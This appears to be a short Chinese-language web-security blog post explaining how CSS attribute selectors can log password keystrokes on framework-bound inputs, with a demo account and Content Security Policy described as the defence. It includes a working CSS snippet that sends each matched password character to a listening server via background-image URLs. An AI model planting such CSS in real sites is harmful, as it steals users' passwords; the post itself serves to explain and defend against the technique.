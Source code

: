 ```yaml
---
title: key-logger
date: 2019-11-13 15:51:58
tags:
---
```

---
title: 使用css selector 记录用户输入信息
date: 2019-11-13 14:09:22
tags: [web security, web fronted]
---

## CSS3 Selector
  实现使用 CSS 记录用户信息主要使用了 CSS3 中的 selector。

| 序号 | 选择器 | 含义 |
| :-----| :---- | :---- |
| 1 | E[attr^="val"] | 属性 attr 的值以 "val" 开头的元素 |
| 2 | E[att$="val"] | 属性 attr 的值以 "val" 结尾的元素 |
| 3 | E[att*="val"] | 属性 attr 的值以 "val" 字符串的元素 |

## 键位匹配

浏览器自身默认不会将用户输入的值同步到 value 中, 但像一些框架会将用户输入值同步到 value 中。[Demo Link](https://codepen.io/epson-lee/pen/vYYzaNb?editors=0010)

![demo.gif](css-keylogger.gif)

将值同步到 value 之后，我们可以使用 css 来做匹配，对应的键位发送到不同的链接。

```css
/* 命中 0 时 请求对应的接口 */
input[type="password"][value$="0"] {
  background-image: url("http://localhost:3000/0"); 
}
/* 命中 1 时 请求对应的接口 */
input[type="password"][value$="1"] {
  background-image: url("http://localhost:3000/1"); 
}
```

## 防御措施

在知道可以使用 css 来记录按键之后我兴冲冲的找到对应的 github demo，按照文档所说打开 [https://instagram.com](https://instagram.com)，安装 Chrome Extension、输入密码但却然而却发现并没有记录到信息，出现了如下的错误信息：

![Error Info](css-keylogger-error.png)

在 [antd-design-pro 示例登录页](https://preview.pro.ant.design/user/login?redirect=https%3A%2F%2Fpreview.pro.ant.design%2Fdashboard%2Fanalysis) 倒是可以。

![Error Info](css-keylogger-antdpro.gif)

这是因为 [https://instagram.com](https://instagram.com) 使用了 CSP (Content Security Policy)。 说白了就是为了页面安全而制定的一系列防护措施，通过CSP所约束的规则制定可信的内容来源（脚本、图片、iframe、fton、style 等可能的远程资源）。

## 引用

[CSS Keylogger](https://github.com/maxchehab/CSS-Keylogging)
[Content Security Policy (CSP) 是什么？为什么它能抵御 XSS 攻击](https://www.zhihu.com/question/21979782)